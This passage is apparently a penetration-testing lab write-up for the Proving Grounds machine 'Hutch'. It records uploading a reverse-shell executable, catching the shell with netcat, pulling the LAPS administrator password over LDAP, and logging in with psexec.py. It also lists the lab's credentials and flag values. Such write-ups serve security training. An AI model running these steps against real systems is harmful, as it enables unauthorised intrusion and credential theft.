 ![[Cybersecurity-Resources/images/Pasted image 20241027181332.png]]
- Returned to `Cadaver` login and ran `/media/sf_Kali-Shared/Boxes/PG/Windows/Hutch/revshell2.exe` to upload to web server
![[Cybersecurity-Resources/images/Pasted image 20241027181541.png]]
- Started netcat listener on port `4444`, returned to web browser to execute `C:\inetpub\wwwroot\revshell2.exe` command, and caught reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241028194223.png]]
- Ran `type C:\Users\fmcsorley\local.txt` to print `22d03ac1b79145247627d9e068667178`
![[Cybersecurity-Resources/images/Pasted image 20241028202217.png]]
---
# Privilege Escalation
## Psexe.py
- Ran `ldapsearch -x -H 'ldap://192.168.182.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd` to find administrator password `administrator:c)!ybbH7AN58p1`
![[Cybersecurity-Resources/images/Pasted image 20241028194935.png]]
- Ran `/usr/share/doc/python3-impacket/examples/psexec.py hutch.offsec/administrator:'c)!ybbH7AN58p1'@192.168.182.122` to login with psexec.py
![[Cybersecurity-Resources/images/Pasted image 20241028201233.png]]
- Ran `type C:\Users\Administrator\Desktop\proof.txt` to print `efd8e0e27039c18caf863001955304b3`
![[Cybersecurity-Resources/images/Pasted image 20241028202150.png]]
---
# Trophy & Loot
`local.txt` = `22d03ac1b79145247627d9e068667178`
`proof.txt` = `efd8e0e27039c18caf863001955304b3`